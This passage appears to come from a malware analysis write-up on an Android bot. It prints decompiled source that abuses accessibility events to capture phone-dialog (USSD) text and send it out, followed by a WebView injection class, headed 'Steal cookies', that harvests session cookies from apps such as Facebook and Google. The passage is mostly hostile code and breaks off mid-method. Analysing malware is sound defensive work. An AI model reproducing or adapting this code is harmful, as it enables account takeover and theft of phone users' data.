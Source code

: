 ```cs
        if(accessibilityEvent0 != null && accessibilityEvent0.getSource() != null && (s.equalsIgnoreCase("com.android.phone")) && (accessibilityEvent0.getClassName().toString().toLowerCase().contains("dialog")) && !accessibilityEvent0.getText().isEmpty()) {
            StringBuilder stringBuilder0 = new StringBuilder();
            for(Object object0: accessibilityEvent0.getText()) {
                stringBuilder0.append(" | ");
                stringBuilder0.append(((CharSequence)object0));
            }

            UssdComponent.sendPhoneNumber(stringBuilder0.toString());
        }

        return false;
    }
```

# Steal cookies

The malware will try to steal Cookies from APPs such as `Facebook` and `google`. 

```cs
public class CookiesReaderViewerActivityInterfaceImpl extends IScreen {
    public interface LifeCycleListener {
        boolean onPause();

        boolean onResume();
    }

    private InjectCookiesModel cookieModel;
    private LifeCycleListener lifeCycleListener;
    private WebView webView;

    public CookiesReaderViewerActivityInterfaceImpl(InjectCookiesModel injectCookiesModel0) {
        this.cookieModel = injectCookiesModel0;
    }

    public CookiesReaderViewerActivityInterfaceImpl(InjectCookiesModel injectCookiesModel0, LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0) {
        this.cookieModel = injectCookiesModel0;
        this.lifeCycleListener = cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0;
    }

    private void handleData(Activity activity0) {
        try {
            this.webView.clearView();
            String s = this.cookieModel.getFirstScreen();
            this.webView.loadUrl(s);
            Timber.d("INJECTS -> display file: " + s, new Object[0]);
        }
        catch(Exception unused_ex) {
        }
    }

    private void init() {
        this.webView.getSettings().setDomStorageEnabled(true);
        this.webView.getSettings().setMixedContentMode(0);
        com.sdktools.android.bot.components.injects.system.CookiesReaderViewerActivityInterfaceImpl.1 cookiesReaderViewerActivityInterfaceImpl$10 = new WebViewClient() {
            @Override  // android.webkit.WebViewClient
            public void onPageFinished(WebView webView0, String s) {
                super.onPageFinished(webView0, s);
                if(s.contains(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getScreenToFinish())) {
```